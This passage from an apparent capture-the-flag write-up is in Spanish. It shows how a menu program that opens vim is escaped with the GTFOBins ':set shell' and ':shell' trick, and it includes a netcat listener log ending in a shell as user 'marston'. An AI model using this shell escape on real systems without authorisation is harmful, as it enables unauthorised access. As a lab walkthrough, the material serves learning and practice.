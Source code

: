Wow! ¡Nos está dando opciones para seleccionar!

Probé con todas las opciones y descubrí que la opción 4 abre un editor `vim`, ¡así que puedo aprovecharme (en el buen sentido :\\)!

Con el siguiente código de [GTFOBins](https://gtfobins.github.io/gtfobins/vim/):

```
vim
:set shell=/bin/sh #Yo usé bash :p
:shell
```

```bash
ArthurMorgan@incognito:~$ nc -nlvp 4545
Listening on [0.0.0.0] (family 0, port 4545)
Connection from 127.0.0.1 37376 received!


ideaBox
1.Write
2.Delete
3.Steal others' Trash
4.Show'nExit
:set shell=/bin/bash
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
:shell
id
uid=1002(marston) gid=1003(marston) groups=1003(marston)
```
(Está un poco raro el código, ¡pero simplemente copié, pegué el código de GTFOBins y funcionó!)

Ahora tenemos una shell cómo `marston` !!
